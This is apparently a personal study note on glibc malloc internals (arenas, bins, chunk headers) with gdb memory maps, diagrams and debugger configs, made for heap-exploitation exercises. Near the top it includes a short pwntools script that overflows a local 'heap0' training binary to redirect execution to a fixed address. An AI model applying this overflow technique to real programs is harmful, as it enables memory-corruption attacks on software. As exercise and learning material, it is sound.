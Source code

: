 ```yaml
---
sort : 7
---
```





<!-- 

#!/bin/python3 

from pwn import *

exe = ELF("./heap0")
context.binary = exe

offset = b'A'*(0x50 - 0x4) + b'BBBB' + p32(0x8048464) 

open('payload', 'wb').write(offset)

proc = process(argv=[exe.path, offset])
proc.interactive()





#================================================================================================


C++ vs C 






































(gdb) help info proc















# Glibc Heap Implementation (glibc malloc)

https://sploitfun.wordpress.com/2015/02/10/understanding-glibc-malloc/

https://github.com/shellphish/how2heap


WOOOOOOOOOOOOOOOOOOOW 
https://wargames.ret2.systems/levels



## Defenetions

1. arena 
2. main arena 
3. freelist         bins 
4. brk              mmap
5. main arenas bin 
6. thread arena



## many memory allocators are available:

```text

malloc      – glibc
ptmalloc2   – glibc                         ==> later due to ptmalloc2’s threading support, it became the default memory allocator for linux.
dlmalloc    – General purpose allocator     ==> early days of linux, dlmalloc was used as the default memory allocator
jemalloc    – FreeBSD and Firefox
tcmalloc    – Google
libumem     – Solaris


there could be lot of changes between ptmalloc2 and glibc’s malloc implementation.
```

## System Calls: As seen in this post `malloc` internally invokes either `brk();` or `mmap();` syscall.





## per thread arena

Threading: During early days of linux, dlmalloc was used as the default memory allocator. But later due to ptmalloc2’s threading support, it became the default memory allocator for linux. Threading support helps in improving memory allocator performance and hence application performance. In dlmalloc when two threads call malloc at the same time ONLY one thread can enter the critical section, since freelist data structure is shared among all the available threads. Hence memory allocation takes time in multi threaded applications, resulting in performance degradation. While in ptmalloc2, when two threads call malloc at the same time memory is allocated immediately since each thread maintains a separate heap segment and hence freelist data structures maintaining those heaps are also separate. This act of maintaining separate heap and freelist data structures for each thread is called per thread arena.




```c
/* Per thread arena example. */
#include <stdio.h>
#include <stdlib.h>
#include <pthread.h>
#include <unistd.h>
#include <sys/types.h>

void* threadFunc(void* arg) {

		char* addr = (char*) malloc(1000);
		free(addr);
}

int main() {
		pthread_t t1;
		int ret;
		char* addr;

		addr = (char*) malloc(1000);
		free(addr);

		ret = pthread_create(&t1, NULL, threadFunc, NULL);
		ret = pthread_join(t1, NULL);

		return 0;
}
```



`Before` malloc in `main thread`: In the below output we can see that there is NO heap segment yet and no per thread stack too since thread1 is not yet created

```c
► int main()
```

```php

Start Addr   End Addr       Size     Offset  Perms   objfile                                                                           
		0x56555000 0x56556000     0x1000        0x0  r--p   /home/o54ma/exploit-exercises-protostar-2/protostar/bin/HeapExploitaion/Ex2
		0x56556000 0x56557000     0x1000     0x1000  r-xp   /home/o54ma/exploit-exercises-protostar-2/protostar/bin/HeapExploitaion/Ex2
		0x56557000 0x56558000     0x1000     0x2000  r--p   /home/o54ma/exploit-exercises-protostar-2/protostar/bin/HeapExploitaion/Ex2
		0x56558000 0x56559000     0x1000     0x2000  r--p   /home/o54ma/exploit-exercises-protostar-2/protostar/bin/HeapExploitaion/Ex2
		0x56559000 0x5655a000     0x1000     0x3000  rw-p   /home/o54ma/exploit-exercises-protostar-2/protostar/bin/HeapExploitaion/Ex2

		0xf7d8e000 0xf7da8000    0x1a000        0x0  r--p   /usr/lib/i386-linux-gnu/libc-2.33.so                                       
		0xf7da8000 0xf7f00000   0x158000    0x1a000  r-xp   /usr/lib/i386-linux-gnu/libc-2.33.so                                       
		0xf7f00000 0xf7f77000    0x77000   0x172000  r--p   /usr/lib/i386-linux-gnu/libc-2.33.so                                       
		0xf7f77000 0xf7f79000     0x2000   0x1e9000  r--p   /usr/lib/i386-linux-gnu/libc-2.33.so                                       
		0xf7f79000 0xf7f7a000     0x1000   0x1eb000  rw-p   /usr/lib/i386-linux-gnu/libc-2.33.so                                       
		0xf7f7a000 0xf7f82000     0x8000        0x0  rw-p                                                                              
		0xf7f82000 0xf7f87000     0x5000        0x0  r--p   /usr/lib/i386-linux-gnu/libpthread-2.33.so                                 
		0xf7f87000 0xf7f97000    0x10000     0x5000  r-xp   /usr/lib/i386-linux-gnu/libpthread-2.33.so                                 
		0xf7f97000 0xf7f9f000     0x8000    0x15000  r--p   /usr/lib/i386-linux-gnu/libpthread-2.33.so                                 
		0xf7f9f000 0xf7fa0000     0x1000    0x1c000  r--p   /usr/lib/i386-linux-gnu/libpthread-2.33.so                                 
		0xf7fa0000 0xf7fa1000     0x1000    0x1d000  rw-p   /usr/lib/i386-linux-gnu/libpthread-2.33.so                 
		0xf7fa1000 0xf7fa3000     0x2000        0x0  rw-p

		0xf7fc3000 0xf7fc5000     0x2000        0x0  rw-p                                                                                                            
		0xf7fc5000 0xf7fc9000     0x4000        0x0  r--p   [vvar]
		0xf7fc9000 0xf7fcb000     0x2000        0x0  r-xp   [vdso]
		0xf7fcb000 0xf7fcc000     0x1000        0x0  r--p   /usr/lib/i386-linux-gnu/ld-2.33.so                                                                       
		0xf7fcc000 0xf7fee000    0x22000     0x1000  r-xp   /usr/lib/i386-linux-gnu/ld-2.33.so                                                                       
		0xf7fee000 0xf7ffb000     0xd000    0x23000  r--p   /usr/lib/i386-linux-gnu/ld-2.33.so                                                                       
		0xf7ffb000 0xf7ffd000     0x2000    0x2f000  r--p   /usr/lib/i386-linux-gnu/ld-2.33.so                                                                       
		0xf7ffd000 0xf7ffe000     0x1000    0x31000  rw-p   /usr/lib/i386-linux-gnu/ld-2.33.so

		0xfffdd000 0xffffe000    0x21000        0x0  rw-p   [stack]
```










`After` malloc in main thread, the heap segment is created !!                                                                                   
And its lies just `above` the `data segment` (0x5655a000-0x5657c000)

this shows heap memory is created by increasing program break location using `brk` syscall

```c 
► addr = (char*) malloc(1000);
```

```php
		Start Addr   End Addr       Size     Offset  Perms   objfile
		0x56555000 0x56556000     0x1000        0x0  r--p   /home/o54ma/exploit-exercises-protostar-2/protostar/bin/HeapExploitaion/Ex2    
		0x56556000 0x56557000     0x1000     0x1000  r-xp   /home/o54ma/exploit-exercises-protostar-2/protostar/bin/HeapExploitaion/Ex2    
		0x56557000 0x56558000     0x1000     0x2000  r--p   /home/o54ma/exploit-exercises-protostar-2/protostar/bin/HeapExploitaion/Ex2    
		0x56558000 0x56559000     0x1000     0x2000  r--p   /home/o54ma/exploit-exercises-protostar-2/protostar/bin/HeapExploitaion/Ex2    
		0x56559000 0x5655a000     0x1000     0x3000  rw-p   /home/o54ma/exploit-exercises-protostar-2/protostar/bin/HeapExploitaion/Ex2    
		0x5655a000 0x5657c000    0x22000        0x0  rw-p   [heap]                                                                              # NEW !!    this called the MAIN ARENA !! 

		0xf7d8e000 0xf7da8000    0x1a000        0x0  r--p   /usr/lib/i386-linux-gnu/libc-2.33.so     
		...
```



```note
Also do note that eventhough user requested only 1000 bytes, heap memory of size 136 KB is created. (0x22000 / 1024).

This contiguous region of heap memory is called `arena`. and since it has created by `main thread` its called `main arena`.
```



```note
When arena runs out of free space, it can `grow` by increasing program break location (After growing `top chunk’s` size is adjusted to include the extra space). 
Similarly arena can also `shrink` when there is lot of free space on top chunk.

Later when user requests memory, ‘glibc malloc’ doesnt get new heap memory from kernel, instead it will try to find a free block in bin. And only when no free block exists, it obtains memory from kernel.
```


think of `bin` as a list of linked list (directional / multidirectional)















```c
► free(addr);
```
	
```php

		Start Addr   End Addr       Size     Offset  Perms   objfile                                                                   
		0x56555000 0x56556000     0x1000        0x0  r--p   /home/o54ma/exploit-exercises-protostar-2/protostar/bin/HeapExploitaion/Ex2
		0x56556000 0x56557000     0x1000     0x1000  r-xp   /home/o54ma/exploit-exercises-protostar-2/protostar/bin/HeapExploitaion/Ex2
		0x56557000 0x56558000     0x1000     0x2000  r--p   /home/o54ma/exploit-exercises-protostar-2/protostar/bin/HeapExploitaion/Ex2
		0x56558000 0x56559000     0x1000     0x2000  r--p   /home/o54ma/exploit-exercises-protostar-2/protostar/bin/HeapExploitaion/Ex2
		0x56559000 0x5655a000     0x1000     0x3000  rw-p   /home/o54ma/exploit-exercises-protostar-2/protostar/bin/HeapExploitaion/Ex2
		0x5655a000 0x5657c000    0x22000        0x0  rw-p   [heap]                                                                              # nothing changed !! even after free 

		0xf7d8e000 0xf7da8000    0x1a000        0x0  r--p   /usr/lib/i386-linux-gnu/libc-2.33.so                                       
		0xf7da8000 0xf7f00000   0x158000    0x1a000  r-xp   /usr/lib/i386-linux-gnu/libc-2.33.so                                       
		0xf7f00000 0xf7f77000    0x77000   0x172000  r--p   /usr/lib/i386-linux-gnu/libc-2.33.so                                       
		0xf7f77000 0xf7f79000     0x2000   0x1e9000  r--p   /usr/lib/i386-linux-gnu/libc-2.33.so                                       
		0xf7f79000 0xf7f7a000     0x1000   0x1eb000  rw-p   /usr/lib/i386-linux-gnu/libc-2.33.so                                       
		0xf7f7a000 0xf7f82000     0x8000        0x0  rw-p                                                                              
		0xf7f82000 0xf7f87000     0x5000        0x0  r--p   /usr/lib/i386-linux-gnu/libpthread-2.33.so                                 
		0xf7f87000 0xf7f97000    0x10000     0x5000  r-xp   /usr/lib/i386-linux-gnu/libpthread-2.33.so                                 
		0xf7f97000 0xf7f9f000     0x8000    0x15000  r--p   /usr/lib/i386-linux-gnu/libpthread-2.33.so                                 
		0xf7f9f000 0xf7fa0000     0x1000    0x1c000  r--p   /usr/lib/i386-linux-gnu/libpthread-2.33.so                                 
		0xf7fa0000 0xf7fa1000     0x1000    0x1d000  rw-p   /usr/lib/i386-linux-gnu/libpthread-2.33.so                                 
		0xf7fa1000 0xf7fa3000     0x2000        0x0  rw-p

		0xf7fc3000 0xf7fc5000     0x2000        0x0  rw-p                                                                              
		0xf7fc5000 0xf7fc9000     0x4000        0x0  r--p   [vvar]                                                                     
		0xf7fc9000 0xf7fcb000     0x2000        0x0  r-xp   [vdso]                                                                     
		0xf7fcb000 0xf7fcc000     0x1000        0x0  r--p   /usr/lib/i386-linux-gnu/ld-2.33.so                                         
		0xf7fcc000 0xf7fee000    0x22000     0x1000  r-xp   /usr/lib/i386-linux-gnu/ld-2.33.so
		0xf7fee000 0xf7ffb000     0xd000    0x23000  r--p   /usr/lib/i386-linux-gnu/ld-2.33.so
		0xf7ffb000 0xf7ffd000     0x2000    0x2f000  r--p   /usr/lib/i386-linux-gnu/ld-2.33.so
		0xf7ffd000 0xf7ffe000     0x1000    0x31000  rw-p   /usr/lib/i386-linux-gnu/ld-2.33.so

		0xfff0e000 0xffffe000    0xf0000        0x0  rw-p   [stack]

```


when allocated memory region is freed, memory behind it doesnt get released to the operating system immediately. Allocated memory region (of size 1000 bytes) is released only to `glibc malloc` library ==> which adds this freed block to `main arenas bin` (In glibc malloc, `freelist` datastructures are referred as `bins`).

 -->







<!-- 


```c
► ret = pthread_create(&t1, NULL, threadFunc, NULL);                ► char* addr = (char*) malloc(1000);
```

```php

		Start Addr   End Addr       Size     Offset  Perms   objfile                                                                   
		0x56555000 0x56556000     0x1000        0x0  r--p   /home/o54ma/exploit-exercises-protostar-2/protostar/bin/HeapExploitaion/Ex2
		0x56556000 0x56557000     0x1000     0x1000  r-xp   /home/o54ma/exploit-exercises-protostar-2/protostar/bin/HeapExploitaion/Ex2
		0x56557000 0x56558000     0x1000     0x2000  r--p   /home/o54ma/exploit-exercises-protostar-2/protostar/bin/HeapExploitaion/Ex2
		0x56558000 0x56559000     0x1000     0x2000  r--p   /home/o54ma/exploit-exercises-protostar-2/protostar/bin/HeapExploitaion/Ex2
		0x56559000 0x5655a000     0x1000     0x3000  rw-p   /home/o54ma/exploit-exercises-protostar-2/protostar/bin/HeapExploitaion/Ex2
		0x5655a000 0x5657c000    0x22000        0x0  rw-p   [heap]

		0xf7400000 0xf7421000    0x21000        0x0  rw-p   #  # NEW !! Thread Arena  (132 KB) size
		0xf7421000 0xf7500000    0xdf000        0x0  ---p                                                                                       

		0xf758d000 0xf758e000     0x1000        0x0  ---p
		0xf758e000 0xf7d8e000   0x800000        0x0  rw-p 

		0xf7d8e000 0xf7da8000    0x1a000        0x0  r--p   /usr/lib/i386-linux-gnu/libc-2.33.so
		....
		....

``` -->


<!-- 

```note
heap memory is created using `mmap` syscall unlike main thread (which uses `sbrk`)

NOTE: When user request size is more than 132 KB (lets say malloc(132 * 1024)) and when there is not enough space in an arena to satisfy user request, memory is allocated using `mmap` syscall (and `NOT` using `sbrk`) irrespective of whether a request is made from `main arena` or `thread arena`.
```




```c
► ret = pthread_create(&t1, NULL, threadFunc, NULL);                ► free(addr);
```

that freeing allocated memory region doesnt release heap memory to the operating system.

instead this freed block added to its `thread arenas bin`.         







```note
So can there be a one to one mapping between the number of threads and the number of arena ?        NO 

application’s arena limit is based on number of cores present in the system


For 32 bit systems:
	 Number of arena = 2 * number of cores.
For 64 bit systems:
	 Number of arena = 8 * number of cores.

hence some arenas will be shared between mutiple threads !! 
```







 -->


















<!-- 



```php
                    ┌─────────────────────┐
                    │                     │
        ┌───────────┤        Arena        ├─────────────────────────────────────────────┬────────────────────────────────────────┐
        │           │                     │                                             │                                        │
        │           └──────────┬──────────┘                                             │                                        │                       ┌────────────────────────┐
        │                      │                                                        │                                        │                       │                        │
        │                      │                                                        │                                        │                       │                        ▼
        │                      │                                              ┌─────────▼─────────┐                    ┌─────────▼─────────┐             │                    Free Chunk
        │                      │                                      low addr│                   │            low addr│                   │             │        ┌──────────────────────────────────┐
┌───────▼───────┐      ┌───────▼───────┐                                      │   malloc_chunk    │                    │                   │             │        │          Prev Chunk Size         │
│               │      │               │                                      │                   │                    │     Heap Info     │             │        ├──────────────────────┬───┬───┬───┤
│   Fast Bin    │      │  Regular Bin  │                                      ├───────────────────┤                    │                   │             │        │      Chunk Size      │ N │ M │ P │
│               │      │               │                                      │                   │                    │                   │             │        ├──────────────────────┴───┴───┴───┤
└───────────────┘      └───────┬───────┘                                      │                   │                    ├───────────────────┤             │        │                FD                │
                               │                                              │    Free Chunk     │                    │                   │             │        ├──────────────────────────────────┤
                               │                                              │                   │                    │   malloc_state    │             │        │                BK                │
                               │                                              │                   │                    │                   │             │        ├──────────────────────────────────┤
        ┌──────────────────────┼─────────────────────┐                        ├───────────────────┤                    │                   │             │        │                                  │
        │                      │                     │                        │                   │                    ├──────────────────┬┤             │        │                                  │
        │                      │                     │                        │   malloc_chunk    │                    │                  │┼┐            │        │              Unused              │
        │                      │                     │                        │                   │                    │   malloc_chunk   │┼│            │        │                                  │
        │                      │                     │                        ├───────────────────┤                    │                  │┼│            │        │                                  │
┌───────▼───────┐      ┌───────▼───────┐     ┌───────▼───────┐                │                   │                    ├──────────────────┼┼│            │        └──────────────────────────────────┘
│               │      │               │     │               │                │     Allocated     │                    │                  │┼│            │
│ Unsorted Bin  │      │   Small Bin   │     │   Large Bin   │                │       Chunk       │                    │                  │┼┼────────────┘
│               │      │               │     │               │                │                   │                    │    Free Chunk    │┼│
└───────────────┘      └───────────────┘     └───────────────┘                │                   │                    │                  │┼│
                                                                              ├───────────────────┤                    │                  │┼┘
                                                                              │                   │                    ├──────────────────┼│
                                                                              │   malloc_chunk    │                    │                  │┼┐            ┌────────────────────────┐
                                                                              │                   │                    │   malloc_chunk   │┼│            │                        │
                                                                              ├───────────────────┤                    │                  │┼│            │                        ▼
                                                                              │                   │                    ├──────────────────┼┼│            │                   Allocated Chunk
                                                                              │     Allocated     │                    │                  │┼│            │        ┌──────────────────────────────────┐
                                                                              │       Chunk       │                    │     Allocated    │┼│            │        │          Prev Chunk Size         │
                                             ┌───────────────────┐            │                   │                    │       Chunk      │┼│            │        ├──────────────────────┬───┬───┬───┤
                                             │                   │            │                   │                    │                  │┼│            │        │      Chunk Size      │ N │ M │ P │
                                             │   malloc_state    ├────┐       ├───────────────────┤                    │                  │┼┘            │        ├──────────────────────┴───┴───┴───┤
                                             │                   │    │       │                   │                    ├──────────────────┼│             │        │                                  │
                                             │                   │    └───────►   malloc_chunk    │                    │                  │┼┐            │        │                                  │
                                             └───────────────────┘            │                   │                    │   malloc_chunk   │┼│            │        │                                  │
                                                at .data section              ├───────────────────┤                    │                  │┼│            │        │                                  │
                                                                              │                   │                    ├──────────────────┼┼│            │        │               Data               │
                                                                              │     Top Chunk     │                    │                  │┼│            │        │                                  │
                                                                     high addr│                   │                    │     Allocated    │┼┼────────────┘        │                                  │
                                                                              └───────────────────┘                    │       Chunk      │┼│                     │                                  │
                                                                                                                       │                  │┼│                     │                                  │
                                                                             ┌─────────────────────┐                   │                  │┼┘                     └──────────────────────────────────┘
                                                                             │                     │                   ├──────────────────┴┤
                                                                             │      Main Arena     │                   │                   │
                                                                             │                     │                   │   malloc_chunk    │
                                                                             └─────────────────────┘                   │                   │
                                                                                                                       ├───────────────────┤
                                                                                                                       │                   │
                                                                                                                       │     Top Chunk     │
                                                                                                              high addr│                   │
                                                                                                                       └───────────────────┘

                                                                                                                      ┌─────────────────────┐
                                                                                                                      │                     │
                                                                                                                      │     Thread Arena    │
                                                                                                                      │                     │
                                                                                                                      └─────────────────────┘
```



 -->




<!-- 
```
`heap_info` 	– Heap Header – A single thread arena can have multiple heaps. Each heap has its own header. Why multiple heaps needed? To begin with every thread arena contains ONLY one heap, but when this heap segment runs out of space, new heap (non contiguous region) gets `mmap’d` to this arena.	

** no heap_info for the main arena heap 

`malloc_state` 	– Arena Header – A single thread arena can have multiple heaps, but for `all` those heaps only a single arena header exists. Arena header contains information about bins, top chunk, last remainder chunk…

`malloc_chunk` 	– Chunk Header – A heap is divided into many chunks based on user requests. Each of those chunks has its own chunk header.

```



```
The Last 3 bits of the size field contains ::

    NON_MAIN_ARENA (N) 	– This bit is set when this chunk belongs to a thread arena.
    IS_MMAPPED (M) 		– This bit is set when chunk is mmap’d.
    PREV_INUSE (P) 		– This bit is set when previous chunk is allocated.	(or not exist, i.e the first chunk has nothing before it) !! 

``


in allocated chunk 

prev_size: If the previous chunk is free, this field contains the size of previous chunk. Else if previous chunk is allocated, this field contains previous chunk’s user data.




in free chunk

prev_size: No two free chunks can be adjacent together. When both the chunks are free, its gets combined into one single free chunk. Hence always previous chunk to this freed chunk would be allocated and therefore prev_size contains previous chunk’s user data

fd: Forward pointer – Points to next chunk in the same bin (and NOT to the next chunk present in physical memory).
bk: Backward pointer – Points to previous chunk in the same bin (and NOT to the previous chunk present in physical memory).

```
























































OLDD !!! 

source /home/o54ma/pwndbg/gdbinit.py
set context-clear-screen on
set follow-fork-mode parent

set context-stack-lines 40
set context-code-lines 25

source /home/o54ma/splitmind/gdbinit.py
python
import splitmind
(splitmind.Mind()
  .tell_splitter(show_titles=True)
  .tell_splitter(set_title="Main")
  .right(display="stack", size="30%")
  .above(of="main", display="disasm", size="60%", banner="top")
  .show("code", on="disasm", banner="none")
  .right(cmd='tty; tail -f /dev/null', size="50%", clearing=False)
  .tell_splitter(set_title='Input / Output')
  .above(display="backtrace", size="75%")
  .above(display="legend", size="22")
  .show("regs", on="legend")
  .below(of="stack", cmd="ipython", size="30%")
).build(nobanner=True)
end

set context-code-lines 30
set context-source-code-lines 30
set context-stack-lines 40
set context-sections  "regs args code disasm stack backtrace"

















DEF !! 

b *main
r

cwatch execute "heap"

cwatch execute "bins"

cwatch execute "vis"










NEW !! 

source /home/o54ma/pwndbg/gdbinit.py

set context-clear-screen on
set follow-fork-mode parent

set context-stack-lines 28
set context-code-lines 28
set context-source-code-lines 20

set context-ghidra always

set context-register-changed-color yellow

set context-sections  "regs args code disasm stack ghidra expressions"


source /home/o54ma/splitmind/gdbinit.py
python
import splitmind
(splitmind.Mind()
  .tell_splitter(show_titles=True)
  .tell_splitter(set_title="Main")
  .right(display="stack", size="30%")
  .right(of="main", display="disasm", size="50%")

  .above(display="code", size="50%")
  .above(display="legend", size="22")
  .show("regs", on="legend")
  .below(of="stack", display="hacker", size="50%")
  .show("ghidra", on="hacker")
  .below(of="hacker", cmd="python3", size="7%")
).build(nobanner=True)
end -->
